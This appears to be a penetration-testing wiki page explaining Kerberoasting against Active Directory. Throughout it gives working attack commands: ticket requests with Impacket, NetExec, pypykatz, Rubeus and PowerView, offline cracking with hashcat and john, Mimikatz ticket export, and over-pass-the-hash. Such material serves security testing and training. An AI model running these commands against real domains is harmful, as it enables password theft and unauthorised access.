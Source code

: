 # Kerberoasting
MITRE ATT&CK™ Sub-technique T1558.003

![Kerberos Diagram](../../../assets/kerberoasting.jpg)

When asking the KDC (Key Distribution Center) for a Service Ticket (ST), the requesting user needs to send a valid TGT (Ticket Granting Ticket) and the service name (`sname`) of the service wanted. If the TGT is valid, and if the service exists, the KDC sends the ST to the requesting user.

Multiple formats are accepted for the `sname` field: servicePrincipalName (SPN), sAMAccountName (SAN), userPrincipalName (UPN), etc.

The ST is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a service (by its SAN or SPN), he can request a ST for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline. **This is Kerberoasting**.

> [!IMPORTANT]
> Unlike [ASREProasting](asreproast.md), this attack can only be carried out with a prior foothold (valid domain credentials), except in the Kerberoasting without pre-authentication scenario.

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials.

> [!TIP]
> The Kerberoasting attack can be conducted without knowing any SPN of the target account, since a service ticket can be request for as long as the service's SAN (`sAMAccountName`) is known. ([swarm.ptsecurity.com](https://swarm.ptsecurity.com/kerberoasting-without-spns/))
> 
> Nota bene, Kerberos can deliver service tickets even if the service has no SPN at all, but then the service's SAN must end with `$`, and in this case it's hard to know for sure if the service's password is defined by a human. Kerberoast attacks usually target user accounts with at least one SPN (`servicePrincipalName`) since they probably have human-defined passwords.

```bash
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).
```bash
netexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter
```

Using [pypykatz](https://github.com/skelsec/pypykatz/wiki/Kerberos-spnroast-command) (Python) it is possible to request an RC4 encrypted ST even when AES encryption is enabled (and if RC4 is still accepted of course). The tool features an -e flag which specifies what encryption type should be requested (default to 23, i.e. RC4). Trying to crack `$krb5tgs$23` takes less time than for `krb5tgs$18`.
```bash
pypykatz kerberos spnroast -d $DOMAIN -t $TARGET_USER -e 23 'kerberos+password://DOMAIN\username:Password@IP'
```


[Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose.
```powershell
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```


[Hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can then be used to try cracking the hash.
```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```

```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```

### Kerberoast w/o pre-authentication
In September 2022, [Charlie Cark](https://twitter.com/exploitph) explained how Service Tickets could be obtained through `AS-REQ` requests (which are usually used for TGT requests), instead of the usual `TGS-REQ`. He demonstrated (and [implemented](https://github.com/GhostPack/Rubeus/pull/139)) how to abuse this in a Kerberoasting scenario.

If an attacker knows of an account for which pre-authentication isn't required (i.e. an [ASREProastable](asreproast.md) account), as well as one (or multiple) service accounts to target, a Kerberoast attack can be attempted without having to control any Active Directory account (since pre-authentication won't be required).

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) (Python) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials.

_At the time of writing, Sept. 28th 2022,_ [_the pull request (#1413)_](https://github.com/SecureAuthCorp/impacket/pull/1413) _adding the `-no-preauth` option for `GetUserSPNs.py` is pending._
```bash
GetUserSPNs.py -no-preauth "bobby" -usersfile "services.txt" -dc-host "DC_IP_or_HOST" "DOMAIN.LOCAL"/
```

```
srv01
cifs/srv02.domain.local
cifs/srv02
```

[Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose.
```powershell
Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"DOMAIN.LOCAL" /dc:"DC01.DOMAIN.LOCAL" /nopreauth:"nopreauth_user" /spn:"target_service"
```
### Targeted Kerberoasting
If an attacker controls an account with the rights to add an SPN to another ([`GenericAll`](../dacl/#genericall), [`GenericWrite`](../dacl/#genericwrite)), it can be abused to make that other account vulnerable to Kerberoast (see [exploitation](../dacl/targeted-kerberoasting.md)).

> [!TIP]
> Controlling a member of the [Account Operators](../builtins/security-groups) group, targeted Kerberoasting can be conducted for the whole domain (see [exploitation](../dacl/targeted-kerberoasting.md)).


### Tidbits
```powershell
# To see existing tickets
klist

# Remove all tickets
klist purge
```
### PowerView
Request a kerberos service ticket for specified SPN.  By default the output is in Hashcat format
```powershell
Request-SPNTicket -SPN "CIFS/target.domain.local" [-OutputFormat JTR]
```
### Manually
By doing it manually, ticket is generated, it requires to be extracted to crack the hash
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "CIFS/target.domain.local"
```

Dump the tickets out
```text
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

Now, crack ’em
### Over-Pass the Hash
#### Rubeus
```powershell
Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/opsec] /ptt
```
#### Mimikatz
```powershell
sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe
```
## Resources

[https://en.hackndo.com/kerberos](https://en.hackndo.com/kerberos)

[https://adsecurity.org/?p=2011](https://adsecurity.org/?p=2011)

[https://www.semperis.com/blog/new-attack-paths-as-requested-sts/](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)

[https://swarm.ptsecurity.com/kerberoasting-without-spns/](https://swarm.ptsecurity.com/kerberoasting-without-spns/)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast